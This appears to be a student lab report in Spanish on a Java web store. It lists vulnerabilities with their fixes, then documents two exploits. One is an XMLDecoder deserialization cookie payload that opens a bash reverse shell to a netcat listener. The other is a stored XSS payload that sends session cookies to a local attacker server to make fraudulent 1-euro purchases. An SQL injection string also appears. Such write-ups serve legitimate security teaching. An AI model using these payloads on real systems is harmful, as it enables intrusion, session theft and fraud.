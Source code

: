 ###### por Sergio Luaces Martín, Diego Dopazo García y Aarón yada yada

# Vulnerabilidades encontradas:

- CPS
	  Se ha encontrado que la CSP era demasiado permisiva.
	  Se ha solucionado aumentando las restricciones de dicha Content Security Policy:
	```java
	public class CSPInterceptor implements HandlerInterceptor {  
	      
	    @Override  
	    public boolean preHandle(HttpServletRequest request, 
							    HttpServletResponse response, 
							    Object handler)  
	        throws Exception {  
	        response.setHeader("Content-Security-Policy",   
	            "default-src 'self'; " +              //solo recursos de mi origen  
	            "img-src 'self' data:; " +         //solo imagenes de mi dominio  
	            "script-src 'self' 'unsafe-inline'; " +       //solo js de mi app  
	            "style-src 'self' 'unsafe-inline';"+      //solo css de mi dominio  
	            "object-src 'none';"+ //prohibe el uso de flash, java applets, etc  
	            "base-uri 'self'; "+               //prohibe que cambien la uri  
	            "connect-src 'self'; "+       //prohibe AJAX fuera de mi dominio  
	            "frame-ancestors 'none';"+        //prohibe clickjacking  
	            "form-action 'self';");           //solo envia forms a mi dominio  
	        return true;  
	    }       
	}	  
	```  
	 
- XSS en el login
		Se ha detectado que en varios casos donde se permite al usuario iniciar sesión, poniendo los tags de script, se puede ejecutar código arbitrario.
		Aparte de en el caso del login, también ocurre en otros casos donde se le permite al usuario escribir texto.
		Se ha solucionado...
- SQLi en el login
		Se ha detectado que el formulario de autenticación concatenaba directamente los valores introducidos por el usuario en la consulta JPQL/SQL, permitiendo modificar la query ejecutada en el servidor mediante técnicas de SQL Injection (por ejemplo, usando `admin' OR '1'='1`).  
		Esto podría permitir acceder a cuentas sin conocer las credenciales correctas o revelar información sensible de la base de datos.
		Se ha solucionado eliminando la construcción dinámica del JPQL y sustituyéndola por consultas parametrizadas, evitando que el valor introducido por el usuario pueda alterar la query.  
		En concreto, se ha reemplazado el uso de `MessageFormat.format(...)` por queries con parámetros `:email` y `:password`, utilizando `TypedQuery` y `setParameter()`:

```java
	TypedQuery<User> query = entityManager.createQuery("SELECT u FROM User u WHERE u.email = :email AND u.password = :password", User.class); query.setParameter("email", email); query.setParameter("password", password);
```
	De este modo, el input del usuario se envía de forma segura al motor JPA, imposibilitando que la consulta sea manipulada.

- File upload en la foto de perfil
		Se ha detectado que la funcionalidad de “subir imagen de perfil” aceptaba ficheros que no eran imágenes legítimas, permitiendo la subida de ficheros maliciosos (por ejemplo polyglots o archivos con payloads ocultos) que podrían llevar a la ejecución de scripts u otra actividad no deseada.
		Se ha solucionado verificando de forma exhaustiva el contenido del fichero subido usando `PngReader` de la librería **pngj**: antes de aceptar el archivo se analiza el cuerpo completo del fichero y se comprueba que cumple la estructura y los chunks válidos de un PNG. Solo se admiten ficheros que pasan esta validación; el resto se rechaza. Con ello se evita que ficheros no-PNG o PNG malformados lleguen al almacenamiento o al procesamiento posterior.
- Bussines logging en el precio a la hora de pagar
- Information disclosure (Los errores que se muestran en la página)
- Insecure Deserialization (cookie: user-info)
- Access control (puedes comentar sin haber comprado el producto)
- Validacion de datos en la capa modelo (usuario)
- Validación de datos en formularios
- Exposición de información sensible
- Vulnerabilidad en la autenticacion: contraseña muy simple (no mandado)
- Vulnerabilidad en la autenticacion: hash con salt estático 
	 Se ha detectado que en src/main/java/es/storeapp/business/services/UserService.java, existe una variable SALT definida estáticamente 
	```java
	- private static final String SALT = "$2a$10$MN0gK0ldpCgN9jx6r0VYQO"; 
	````
	 Que es usada en la generación del hash de la contraseña de un usuario:
```java
	  User user = userRepository.findByEmailAndPassword(email, BCrypt.hashpw(clearPassword, SALT));
```
    Esto provoca un fallo serio ya que se puede sitinguir donde acaba el hash de la contraseña y donde empieza el salt, permitiendo descubrir la contraseña a base d efuerza bruta probando operaciones hash en diferentes contraseñas hasta que coincida.
	Se ha solucionado generando un salt de manera aleatoria usando esta función:
````java
String hashedPassword = BCrypt.hashpw(password, BCrypt.gensalt());

        User user = userRepository.create(new User(name, email, hashedPassword, address, image));
````
- Open Redirect en el flujo de autenticación, concretamente en el parámetro next de /login?next=...  
- IDOR (Insecure Direct Object Reference) en el endpoint /orders/{id}.

# Exploits

## Reverse shell usando la vulnerabilidad de deserialización insegura en la cookie `user-info`

### Vulnerabilidades explotadas

- Deserialización insegura
### Exploit

Para llevar a cabo este exploit es necesario no tener la sesión iniciada. 
Lo primero es poner un listener con netcat de la siguiente forma: `nc -nlvp 4444` y luego hay que crear el payload codificando el siguiente XML en Base64:

```xml

<?xml version="1.0" encoding="UTF-8"?>

<java version="1.8.0" class="java.beans.XMLDecoder">

  <!-- 1) Ejecuta ProcessBuilder primero -->

  <object class="java.lang.ProcessBuilder">

    <array class="java.lang.String" length="3">

      <void index="0"><string>/bin/bash</string></void>

      <void index="1"><string>-c</string></void>

      <void index="2">

        <string>bash -i &gt;&amp; /dev/tcp/127.0.0.1/4444 0&gt;&amp;1</string>

      </void>

    </array>

    <void method="start"/>

  </object>

  

  <!-- 2) Devuelve un UserInfo válido para que el cast funcione -->

  <object class="es.storeapp.web.cookies.UserInfo">

    <void property="email"><string>victim@example.com</string></void>

    <void property="password"><string>password</string></void>

  </object>

</java>

```

Tras esto, creamos una cookie llamada `user-info` y como valor le asignamos el código anterior en Base64 como se muestra en la imagen:

![user-info](./img/cookie_user_info.png)

Una vez hecho esto, se realiza cualquier acción en la aplicación (por ejemplo, ir a otra pestaña, recargar la página, etc.) y aparecerá un error en la página web. Si entonces vamos al terminal con nuestro listener escuchando veremos que se ha establecido una conexión remota con usuario de acceso el que está ejecutando la aplicación.

![nc](./img/rev_shell_prove.png)

> (Cabe destacar que en este caso el terminal de nc se ve extraño debido a que la conexión va desde localhost a localhost.)
---
## Mediante XSS obtener cookies de usuarios autenticados y usar su cuenta para comprar productos y enviarlos a una dirección maliciosa

### Vulnerabilidades explotadas

- XSS
- Control de acceso (Access Control)
- Fallo en la validación de datos

### Exploit

Para llevar a cabo este exploit necesitaremos el siguiente payload JavaScript:

```javascript

<script>new Image().src='http://localhost:9999/exploit?c='+encodeURIComponent(document.cookie)</script>

```

Este payload se puede insertar en un comentario de cualquier producto (aunque no lo hayamos comprado) explotando una vulnerabilidad en el control de acceso, como se ve en la imagen:

![xss](./img/insert_xss.png)

Cuando un usuario visualice los comentarios de este producto, el XSS enviará la cookie `JSESSIONID` al servidor atacante, donde tendremos un script escuchando en el puerto TCP 9999.

Este script se encarga de, cuando recibe la petición con la cookie, añadir productos al carrito y comprarlos con un valor de **1 euro**, aprovechando un fallo en la validación de datos (la suma solo se calcula en el frontend, no en el backend). 
Vale la pena recalcar que en este ejemplo el único producto que se compra es el ID 3, pero se podría modificar de manera sencilla para comprar cualquier producto deseado.

En la siguiente imagen se ve cómo llega una petición a nuestro servidor después de que la víctima vea la reseña:

![peticion](./img/peticion_server.png)

Para finalizar, en las siguientes imágenes se puede ver que el exploit funcionó: la primera muestra el perfil de la víctima y la segunda la confirmación del pedido; donde se observa que el precio es de tan solo 1€ y que la dirección ha sido sustituida:

  
![perfil](./img/victim_profile.png)

![exploit_2_prueba](./img/prueba_exploit_dos.png)
